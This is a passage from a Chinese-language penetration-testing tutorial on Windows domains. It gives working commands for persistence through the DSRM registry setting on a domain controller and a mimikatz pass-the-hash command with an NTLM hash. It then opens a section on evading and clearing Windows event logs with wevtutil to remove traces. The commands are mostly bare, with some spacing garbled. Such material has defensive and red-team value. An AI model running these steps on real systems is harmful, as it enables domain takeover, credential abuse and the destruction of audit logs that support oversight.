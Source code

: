     
    
    New-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2-PropertyType DWORD

如果存在但是不为2设置为2：

    
    
    Set-ItemProperty"HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA"-name DsrmAdminLogonBehavior-value 2

![](https://gitee.com/fuli009/images/raw/master/public/20210814114542.png)

## 4.3 PTH域控

    
    
    sekurlsa::pth /domain:DC /user:Administrator/ntlm:852a844adfce18f66009b4f14e0a98de/run:powershell.exe

![]()

# 0x05 规避Windows 事件日志记录

在做完一些渗透测试清理痕迹是很有必要的一个环节，包括在一些渗透还未结束也要清理掉一些操作日志。在情报收集反溯源等等大多都是采用windows事件日志中。

## 5.1 查看windows日志

### 5.1.1 事件管理器

![](https://gitee.com/fuli009/images/raw/master/public/20210814114543.png)

### 5.1.2 powershell

  

管理员权限运行查看安全类别的日志：

    
    
    Get-WinEvent-FilterHashtable@{logname="security";}

![](https://gitee.com/fuli009/images/raw/master/public/20210814114544.png)

## 5.2 windows日志清除方法

### 5.2.1 wevtutil.exe

 **统计日志列表数目信息等：**

    
    
     wevtutil.exe gli Applicationwevtutil.exe gli Security

![](https://gitee.com/fuli009/images/raw/master/public/20210814114545.png)![](https://gitee.com/fuli009/images/raw/master/public/20210814114546.png)
